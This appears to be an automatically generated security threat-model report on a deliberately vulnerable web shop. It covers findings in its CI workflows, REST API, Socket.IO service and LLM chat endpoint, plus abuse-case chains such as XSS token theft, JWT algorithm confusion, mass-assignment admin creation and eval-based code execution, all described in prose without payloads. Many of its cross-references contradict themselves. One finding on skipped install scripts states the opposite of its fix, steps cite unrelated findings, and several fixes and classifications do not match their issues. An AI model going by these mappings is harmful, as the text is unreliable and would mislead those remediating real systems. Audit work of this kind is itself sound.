**Instances (16):** `.github/workflows/lock.yml:1`, `.github/workflows/release.yml:1`, `.github/workflows/update-news-www-legacy.yml:1`, `.github/workflows/update-challenges-ebook.yml:1`, `.github/workflows/image_actions.yml:1`, `.github/workflows/lint-fixer.yml:1`, `.github/workflows/stale.yml:1`, `.github/workflows/ci.yml:1` … (+8 more)

**Issue:** Container image signing via cosign or attest-build-provenance. Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-009](#m-009) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Privileged Secrets Reachable pull_request_target Flow

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/pr-compliance.yml:438`

**Issue:** `pr-compliance.yml` triggers on `pull_request_target` (`:4`), which runs in the base-repo context with access to secrets even for fork PRs. The flow references `ORG_ADMIN_TOKEN` (`:438`), `SLACK_WEBHOOK_URL` (`:471`), and the repo `GITHUB_TOKEN` (`:470`).

If any step in this privileged fork-triggered context is compromised, an org-admin-scoped token and a Slack webhook become reachable to an external attacker.

**Evidence:** ✓ verified - pull_request_target at line 4 grants the fork-triggered workflow access to ORG_ADMIN_TOKEN (line 438) and SLACK_WEBHOOK_URL (line 471).

**Fix:** ❸ [M-067](#m-067) — Minimize secret scope and isolate the privileged step

**Classification:** Supply-Chain Integrity · [CWE-378](https://cwe.mitre.org/data/definitions/378.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · Untrusted npm Install/Postinstall Scripts Enabled

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Instances (3):** `Dockerfile:1`, `test/smoke/Dockerfile:1`, `package.json:56`

**Issue:** Dockerfile npm/pnpm/yarn uses --ignore-scripts. Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

**Evidence:** ✓ verified

**Fix:** ❸ [M-010](#m-010) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-062"></a><a id="f-062"></a>
#### F-062 · Incorrect Permission Assignment

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/lock.yml:1`

**Instances (2):** `.github/workflows/lock.yml:1`, `.github/workflows/pr-compliance.yml:1`

**Issue:** GITHUB_TOKEN scope minimization. `contents: read` at workflow root forces per-job opt-in for write scopes - minimal privilege by default.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified

**Fix:** ❸ [M-011](#m-011) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Allocation of Resources without Limits

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:637`

**Issue:** LLM10 - Unbounded Consumption: `/rest/chat` (`server.ts:637`) has no rate-limiting middleware, while other sensitive routes use express-rate-limit (`server.ts:343`, 458, 465, 471). Each request triggers an outbound streaming LLM call (`routes/chat.ts:201`) with stopWhen: stepCountIs(10) - up to 10 model/tool round-trips per request - and maxRetries configurable (line 206).

A single client can inflate LLM API cost and exhaust the upstream connection pool, degrading the chat service and incurring unbounded provider spend.

**Evidence:** ✓ verified - No rate-limit, request-size, or output-token bound is applied to `/rest/chat`; the route at `server.ts:637` lacks the express-rate-limit middleware used on other routes, and `routes/chat.ts` permits up to 10 LLM steps per request.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-068](#m-068) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - Socket\.IO Real-Time Service  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:21`

**Issue:** The Socket\.IO server accepts unlimited unauthenticated connections and unlimited inbound events per socket. There is no `express-rate-limit`-equivalent gate on the handshake, no per-IP connection cap, and no per-event throttle.

Connection/event floods from anonymous clients can exhaust server resources and degrade availability for all users.

**Evidence:** ◌ ambiguous - `registerWebsocketEvents.ts:21`-50 registers the Server and handlers with no connection limit, per-IP cap, or event throttle anywhere in the file.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-069](#m-069) — Apply per-IP connection limits and per-event rate limiting to the Socket\.IO server

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - LLM Chat Interface  ·  **Location:** `routes/chat.ts:179`

**Issue:** Security-relevant chatbot actions are not recorded with an actor identity. When generateCoupon issues a discount (`routes/chat.ts:179-184`) or any tool runs, the only record is a Prometheus counter incremented per tool name (metricToolCalls, `routes/chat.ts:225`) - an aggregate count with no user, no orderId, no discount value, and no timestamped audit entry.

Fraudulent coupon issuance and order-data access cannot be attributed to a user or reconstructed forensically, enabling repudiation of abusive actions.

**Evidence:** ✓ verified - Successful tool invocations - including coupon generation at `routes/chat.ts:179`-184 - produce only an unattributed Prometheus counter (line 225); no actor+action+resource audit record is written.

**Fix:** ❸ [M-065](#m-065) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Cross-Site Scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/hacking-instructor/index.ts:126`

**Issue:** The hacking-instructor writes `textBox.innerHTML` = snarkdown(`hint.text`) (`hacking-instructor/index.ts:126`), assigning the output of a markdown renderer straight into innerHTML, fully outside Angular's sanitization. snarkdown does not strip HTML, so any markdown source that includes raw HTML/inline event handlers is rendered as live DOM.

Any attacker-influenced hint content executes as DOM in the app origin, enabling script injection and token theft.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - Markdown output from snarkdown is assigned directly to innerHTML, bypassing Angular sanitization on the instructor overlay.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-061](#m-061) — Encode output instead of bypassing the framework sanitizer

**Classification:** Injection · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟢 Low (10)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · No Build Provenance Attestation Published

**Severity:** 🟢 Low  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:74`

**Issue:** The `docker/build-push-action` invocations (`release.yml:74`, `ci.yml:352`) push multi-arch images to Docker Hub with no `provenance:` or `sbom:` attestation flags and no separate signing step - confirmed absent across `release.yml` and `ci.yml`. Downstream consumers cannot verify the published image's origin, so a substituted image is indistinguishable from a legitimate one.

**Evidence:** ✓ verified - The build-push-action step at `release.yml` line 74 sets no `provenance:`/`sbom:` flag and no signing step follows.

**Fix:** ❹ [M-070](#m-070) — Emit signed SLSA provenance and SBOM attestations on the published image

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-066"></a><a id="f-066"></a>
#### F-066 · Insufficient Logging

**Severity:** 🟢 Low  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts:41`

**Issue:** Authentication and session failures in the SPA are surfaced only via `console.log`: token-decode failures (`app.guard.ts:41`), and OAuth session invalidation logs the error object to the console (`oauth.component.ts:65` invalidateSession -> `console.log`(error)). Failed-auth and session-invalidation events are invisible server-side, so malicious client activity cannot be attributed or investigated.

**Evidence:** ✓ verified - Auth/session error handling in the guards and OAuth flow writes only to the browser console with no server-reported security event.

**Fix:** ❹ [M-071](#m-071) — Add security audit logging

**Classification:** Error Information Disclosure · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-067"></a><a id="f-067"></a>
#### F-067 · Insufficient Logging

**Severity:** 🟢 Low  ·  **Component:** [C-04](#c-04) - Socket\.IO Real-Time Service  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:24`

**Issue:** None of the WebSocket handlers log who connected or what state-changing events were received. State mutations and challenge-solve triggers cannot be attributed to any client, preventing detection and investigation of abuse.

**Evidence:** ✓ verified - The connection and event handlers in `registerWebsocketEvents.ts` contain no logging calls; mutations and verify events execute silently.

**Fix:** ❹ [M-072](#m-072) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-068"></a><a id="f-068"></a>
#### F-068 · Information Disclosure

**Severity:** 🟢 Low  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:725`

**Issue:** GET `/metrics` is registered with no authentication middleware and serves the full prom-client registry. Disclosure of operational/runtime telemetry to anonymous callers.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `app.get`('/metrics', `metrics.serveMetrics()`) has no isAuthorized or network restriction in front of it.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❹ [M-073](#m-073) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-069"></a><a id="f-069"></a>
#### F-069 · HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Instances (2):** `Dockerfile:1`, `test/smoke/Dockerfile:1`

**Issue:** Dockerfile HEALTHCHECK instruction. Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

**Evidence:** ✓ verified

**Fix:** ❹ [M-012](#m-012) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-070"></a><a id="f-070"></a>
#### F-070 · Use of Unmaintained Third-Party Components

**Severity:** 🟢 Low  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/lock.yml:1`

**Instances (14):** `.github/workflows/lock.yml:1`, `.github/workflows/update-news-www-legacy.yml:1`, `.github/workflows/update-challenges-ebook.yml:1`, `.github/workflows/image_actions.yml:1`, `.github/workflows/lint-fixer.yml:1`, `.github/workflows/stale.yml:1`, `.github/workflows/update-news-www.yml:1`, `.github/workflows/pr-compliance.yml:1` … (+6 more)

**Issue:** SBOM generation in build pipeline. SBOM generation enables downstream vulnerability tracking and supply-chain auditability.

**Evidence:** ✓ verified

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-013](#m-013) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-071"></a><a id="f-071"></a>
#### F-071 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟢 Low  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `renovate.json / .renovaterc.json / .github/renovate.json:1`

**Issue:** Renovate config present (file-mode detection). File-mode detection is best-effort; hosted-app mode is not detectable from the repo.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-014](#m-014) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-072"></a><a id="f-072"></a>
#### F-072 · Permissive Cross-Origin (CORS) Policy

**Severity:** 🟢 Low - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-04](#c-04) - Socket\.IO Real-Time Service  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:21`

**Issue:** The Socket\.IO `Server` is configured with a hardcoded `cors: { origin: 'http://localhost:4200' }`. A static/over-broad CORS origin enables cross-origin clients to receive solution-bearing broadcasts once relaxed for deployment.

**Root cause:** A permissive CORS policy plus missing anti-CSRF tokens let any external page issue authenticated state-changing requests in the victim's session.

**Evidence:** ◌ ambiguous - `registerWebsocketEvents.ts:21` sets `cors: { origin: 'http://localhost:4200' }` as a literal, not from `config.get(...)`.

**Fix:** Replace the wildcard CORS origin with an explicit allow-list → ❹ [M-074](#m-074) — Source the Socket\.IO CORS origin from configuration with an explicit allowlist

**Classification:** Broken Access Control · [CWE-942](https://cwe.mitre.org/data/definitions/942.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-073"></a><a id="f-073"></a>
#### F-073 · Error Message Disclosure

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - Web3/NFT Integration  ·  **Location:** `routes/nftMint.ts:33`

**Issue:** Both `nftMintListener` (`routes/nftMint.ts:33`) and `walletNFTVerify` (`routes/nftMint.ts:50`), and `contractExploitListener` (`routes/web3Wallet.ts:36`) catch errors and respond with `res.status(500).json(utils.getErrorMessage(error))`. Unauthenticated callers can probe for internal error strings exposing the RPC provider, library versions, or connection state.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - The 500 handler serialises utils.getErrorMessage(error) - the unsanitised error.message - directly into the JSON response body.

**Fix:** Replace developer error pages with a generic message in production responses → ❹ [M-075](#m-075) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-074"></a><a id="f-074"></a>
#### F-074 · Client CAPTCHA timestamp read unvalidated

**Severity:** 🟢 Low  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/data-export/data-export.component.ts:48`

**Issue:** Reads the data-export throttle timestamp from localStorage ('lstdtxprt') and `JSON.parses` it with no validation: new Date(JSON.parse(String(localStorage.getItem('lstdtxprt')))). A user can erase the client cooldown and repeatedly invoke data-export, burdening the backend if no server throttle exists.

**Evidence:** ✓ verified - The data-export cooldown is gated by a client-writable, unvalidated localStorage timestamp that the user fully controls.

**Fix:** ❹ [M-076](#m-076) — Enforce data-export throttling and CAPTCHA validation server-side, not via localStorage

**Classification:** Denial of Service · [CWE-1333](https://cwe.mitre.org/data/definitions/1333.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

---

_**Severity annotation:** rows tagged `*(raw Critical)*` had a Critical-class impact that was capped to a lower effective severity by the triage stage (likelihood downgrade or `data/severity-caps.yaml` rule). The rendered severity is the **effective** severity used for ranking and prioritisation; the raw severity is preserved here so reviewers can re-evaluate the cap decision._

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🟠 High | ◐ Partially blocked |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ◐ Partially blocked |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ◐ Partially blocked |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🟠 High | ◐ Partially blocked |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-017](#f-017) — Stored XSS — `last-login-ip.component.ts:39` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🟢 [F-074](#f-074) — Client CAPTCHA timestamp read unvalidated from — `data-export.component.ts:48`<br/>`frontend/src/app/login/login.component.ts:105` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🟠 [F-030](#f-030) — OAuth access_token passed in URL fragment and query — `oauth.component.ts:28`<br/>`lib/insecurity.ts:56` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-031](#m-031) — Encode output instead of bypassing the framework sanitizer (**P2**): remediating 🟠 [F-017](#f-017) — Stored XSS — `last-login-ip.component.ts:39` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❹ [M-076](#m-076) — Enforce data-export throttling and CAPTCHA validation server-side, not via localStorage (**P4**): remediating 🟢 [F-074](#f-074) — Client CAPTCHA timestamp read unvalidated from — `data-export.component.ts:48` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❸ [M-039](#m-039) — Replace implicit flow with Authorization Code + PKCE and keep tokens out of URLs (**P3**): remediating 🟠 [F-030](#f-030) — OAuth access_token passed in URL fragment and query — `oauth.component.ts:28` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Enforce JWT signature and algorithm verification (**P1**): remediating 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — `lib/insecurity.ts:23` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-001](#m-001) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-016](#m-016) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-017](#m-017) — Enforce JWT signature and algorithm verification (**P1**): remediating 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-038](#f-038) — Server-side eval of user-controlled username — `routes/userProfile.ts:61` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-047](#m-047) — Remove server-side evaluation of untrusted input (**P2**): remediating 🟠 [F-038](#f-038) — Server-side eval of user-controlled username — `routes/userProfile.ts:61` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-001](#m-001) — Move cryptographic keys to a managed secret store<br/>❶ [M-002](#m-002) — Implement comprehensive rate limiting across all sensitive endpoints<br/>❶ [M-016](#m-016) — Move cryptographic keys to a managed secret store<br/>❶ [M-017](#m-017) — Enforce JWT signature and algorithm verification<br/>❶ [M-018](#m-018) — Harden the authentication flow<br/>❶ [M-019](#m-019) — Use parameterized database queries<br/>❶ [M-020](#m-020) — Use parameterized database queries<br/>❶ [M-021](#m-021) — Enforce object-level (ownership) authorization<br/>❶ [M-022](#m-022) — Move secrets to a managed secret store<br/>❶ [M-023](#m-023) — Hash passwords with a strong, salted algorithm<br/>❷ [M-003](#m-003) — Drop unnecessary privileges in build and runtime<br/>❷ [M-004](#m-004) — Apply least-privilege permissions<br/>❷ [M-005](#m-005) — Pin third-party dependencies to immutable versions<br/>❷ [M-006](#m-006) — Pin the container base image to an immutable digest<br/>❷ [M-007](#m-007) — Pin the container base image to an immutable digest<br/>❷ [M-024](#m-024) — Replace security-question reset with an out-of-band token flow<br/>❷ [M-025](#m-025) — Add security.isAuthorized middleware to the `/rest/chat` route…<br/>❷ [M-026](#m-026) — Add Socket\.IO handshake authentication via `io.use` that validates the…<br/>❷ [M-027](#m-027) — Verify token signatures before trusting claims<br/>❷ [M-028](#m-028) — Validate extracted zip entry paths with a normalized prefix…<br/>❷ [M-029](#m-029) — Pin all third-party actions to a full 40-character commit SHA<br/>❷ [M-030](#m-030) — Remove package-lock=false from .npmrc, commit `package-lock.json`, and…<br/>❷ [M-031](#m-031) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-032](#m-032) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-033](#m-033) — Enforce coupon and tool policy in code rather than in system-prompt…<br/>❷ [M-034](#m-034) — Move secrets to a managed secret store<br/>❷ [M-035](#m-035) — Disable XML external entity (XXE) resolution<br/>❷ [M-036](#m-036) — Validate and allowlist outbound request targets<br/>❷ [M-038](#m-038) — Move secrets to a managed secret store<br/>❷ [M-041](#m-041) — Key reset-password rate limiting on the trusted socket IP, not…<br/>❷ [M-042](#m-042) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-043](#m-043) — Rate-limit and lock out repeated authentication attempts<br/>❷ 